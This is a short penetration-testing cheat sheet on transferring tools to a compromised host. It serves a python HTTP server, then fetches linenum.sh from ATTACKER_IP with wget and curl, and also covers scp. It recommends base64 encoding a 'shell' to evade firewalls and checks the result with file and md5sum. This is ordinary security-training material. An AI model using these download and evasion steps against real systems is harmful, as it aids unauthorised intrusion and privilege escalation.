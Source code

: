 
### wget

**Start the python simple http server**
```
cd/tmp
python3 -m http.server 8000
```

**Download file on remote machine**
```
wget http://ATTACKER_IP:8000/linenum.sh
```


### curl

```
curl http://ATTACKER_IP:8000/linenum.sh -o linenum.sh
```

### scp

```
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

### base64

Use this technique to evade firewall and other protections.
Base64 encode the file first.
```
base64 shell -w 0
```

Then decode once you have transferred using any method or either of the above methods

```
echo "name_of_String" | base64 -d
```

### Validate Transferred Files

After the file has been delivered, validate the format of the file

```
file shell
```

We can also use the md5sum command to validate the md5 hash

```
md5sum shell
```